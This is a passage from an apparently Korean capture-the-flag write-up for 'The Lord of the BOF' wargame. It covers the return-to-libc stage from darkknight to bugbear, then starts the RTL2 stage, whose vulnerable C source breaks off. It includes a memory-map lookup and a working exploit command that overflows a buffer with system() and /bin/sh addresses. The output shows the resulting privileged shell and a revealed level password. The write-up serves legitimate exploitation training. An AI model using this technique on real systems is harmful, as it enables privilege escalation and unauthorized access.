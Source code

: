 ```c
	printf("%s\n", buffer);
}
```

RTL 문제라는군. 적당히 /bin/sh 문자열을 만들어주든, libc 안에 존재하는 문자열을 찾든 해서 문자열 주소를 알아내고 `system() + dummy + &"/bin/sh"`를 시전해주자.



gdb 상에서 보는거랑 libc base가 같으니 system 함수 주소 역시 gdb에서 찾은 거랑 실제랑 같을 것이다.

```shell
[darkknight@localhost darkknight]$ cat /proc/1631/maps 
08048000-08049000 r-xp 00000000 08:06 161290     /home/darkknight/bugbear-cp
08049000-0804a000 rw-p 00000000 08:06 161290     /home/darkknight/bugbear-cp
40000000-40013000 r-xp 00000000 08:08 34138      /lib/ld-2.1.3.so
40013000-40014000 rw-p 00012000 08:08 34138      /lib/ld-2.1.3.so
40014000-40015000 rw-p 00000000 00:00 0
40018000-40105000 r-xp 00000000 08:08 34145      /lib/libc-2.1.3.so
40105000-40109000 rw-p 000ec000 08:08 34145      /lib/libc-2.1.3.so
40109000-4010d000 rw-p 00000000 00:00 0
bfffe000-c0000000 rwxp fffff000 00:00 0
[darkknight@localhost darkknight]$ ldd bugbear
	libc.so.6 => /lib/libc.so.6 (0x40018000)
	/lib/ld-linux.so.2 => /lib/ld-linux.so.2 (0x40000000)
```



argv[2]에 /bin/sh를 넣고 ㄱㄱ

```shell
[darkknight@localhost darkknight]$ ./bugbear `python -c 'print "A"*44+"\xe0\x8a\x05\x40"+"AAAA"+"\x34\xfc\xff\xbf" + " /bin/sh;"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAɀAAAA4
bash$ id    
uid=512(darkknight) gid=512(darkknight) euid=513(bugbear) egid=513(bugbear) groups=512(darkknight)
bash$ my-pass
euid = 513
new divide
```





## STAGE 14 : bugbear -> giant

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - giant
        - RTL2
*/

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

main(int argc, char *argv[])
{
	char buffer[40];
	FILE *fp;
	char *lib_addr, *execve_offset, *execve_addr;
	char *ret;

	if(argc < 2){
		printf("argv error\n");
		exit(0);
	}
```